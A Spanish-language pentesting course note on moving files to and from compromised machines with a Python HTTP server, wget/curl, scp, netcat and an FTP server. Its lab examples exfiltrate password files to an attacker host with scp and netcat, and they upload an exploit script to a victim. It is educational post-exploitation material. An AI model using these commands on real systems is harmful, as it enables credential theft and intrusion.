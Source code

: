 ```yaml
---
title: Intercambio de archivos
modulo: M5 - Elevación de privilegios
fecha: 2025-07-31
layout: apunte
slug: 2025-08-13-intercambio-de-archivos
---
```

Intercambiar archivos entre máquinas puede ser de interés, especialmente cuando se quieren extraer datos de las máquinas vulneradas, o cuando se quiere utilizar algún binario que reside en la máquina atacante. Para hacerlo se abordan las siguientes maneras.

# 🐍 Utilizando Python server
**1.** Desde la máquina que **contiene** el archivo que se desea transferir, y **desde la ruta donde se encuentra dicho archivo** se ejecuta el siguiente comando para iniciar un servidor web con python:
```bash
python3 -m http.server <puerto>
```

**2.** Desde la máquina **donde se quiere transferir el archivo**, se pueden utilizar distintos medios, dependiendo de las posibilidades de la máquina, algunos ejemplos son `wget` y `curl`

Usando `wget`:
```bash
wget http://<ip_origen>:<puerto>/<nombre_del_archivo>
```

Usando `curl`:
```bash
curl -o <nombre_archivo> http://<ip_origen>:<puerto>/<nombre_del_archivo>
```

# 📑 Utilizando SCP
>[!warning] Nota:
>Para utilizar este método, es **indispensable** que **la máquina a la que se realiza scp** tenga habilitado el servicio de SSH, además, será necesario conocer las credenciales de acceso.

## Descargando un archivo con SCP
Suponiendo que nos interesa extraer un archivo desde una máquina que tiene el servicio SSH levantado, desde la máquina **donde se quiere transferir el archivo**, se ejecuta el siguiente comando
```bash
scp <usuario_origen>@<ip_origen>:/ruta/archivo/original.extensión /ruta/local/
```

Por ejemplo, si en la máquina A con IP `10.0.2.10` existe un archivo `contraseña.txt` en la ruta `/home/ubuntu/documentos/`, y nos interesa guardarlo en la máquina B dentro de la ruta `/home/kali/descargas/`, el comando se vería de la siguiente manera:
```bash
scp ubuntu@10.0.2.10:/home/ubuntu/documentos/contraseña.txt /home/kali/descargas/
```

## Subiendo un archivo con SCP
Suponiendo que queremos transferir un archivo a una máquina que tiene el servicio de SSH levantado, ejecutamos el siguiente comando **desde la máquina que contiene el archivo**:
```bash
scp /ruta/local/archivo.ext <usuario_destino>@<ip_destino>:/ruta/remota/
```

Por ejemplo, si en la máquina B existe un archivo `exploit.sh` en la ruta `/home/hali/documentos` y nos interesa guardarlo en la máquina A con IP `10.0.2.10`  dentro de la ruta `/home/ubuntu/`, el comando se vería así:

```bash
scp /home/kali/documentos/exploit.sh ubuntu@10.0.2.10:/home/ubuntu/
```

## Notas adicionales
- En caso de que el servicio SSH no esté levantado en el puerto por defecto habrá que especificarlo

```bash
scp -P <puerto> <usuario>@<ip_origen>:/ruta/archivo/original.ext /ruta/local/
```

- También es posible transferir ficheros enteros, con la flag `-r`

```bash
scp -r <usuario_origen>@<ip_origen>:/ruta/archivo/original.ext /ruta/local/
```

* A veces puede requerir especificar métodos de autenticación

```bash
scp -oHostkeyAlgorithms=+ssh-rsa <usuario_origen>@<ip_origen>:/ruta/archivo/original.ext /ruta/local/
```

# 🌐 Utilizando Netcat
**1.** Desde la máquina **a donde se quiere enviar un archivo**, hay que levantar un puerto a la escucha
```bash
nc -lvp <puerto> > ruta/donde/se/guardara/el/archivo/<nombre_archivo>
```

Por ejemplo, si la máquina B quiere enviar el archivo `passwords.txt` a la máquina A, en la máquina A se abriría un puerto, por ejemplo, el 4444, para recibir el archivo
```bash
nc -lvp 4444 > passwords.txt
```

Si no se especifica una ruta, el archivo se guardará en el directorio desde el cual se lanzó el Netcat.

**2.** Desde la máquina **que contiene el archivo**, hay que lanzar un comando Netcat pero para enviar datos, de la siguiente forma
```bash
nc <ip_remota> <puerto> < /ruta/donde/esta/el/archivo/<nombre_archivo>
```

Siguiendo el ejemplo anterior, suponiendo que la máquina A tiene la IP `10.0.2.8`, desde la máquina B se ejecutaría el comando
```bash
nc 10.0.2.8 4444 < passwords.txt
```

# 🗂️ Utilizando FTP
**1.** Levantar el servidor FTP en la máquina **que contiene el archivo** 
```bash
twistd3 -n ftp -r . -p 21
```

Suponiendo que la máquina A con IP `10.0.2.64` contiene el archivo `datos.txt` y quiere enviarlos a la máquina B, el comando se ejecutaría en la máquina A.

**2.** Desde la máquina **donde se quiere transferir el archivo** se ejecuta el comando para obtener el archivo
```bash
wget ftp://<ip_remota>/<archivo>
```

Siguiendo el ejemplo anterior, desde la máquina B se lanzaría el comando
```bash
wget ftp://10.0.2.64/datos.txt
```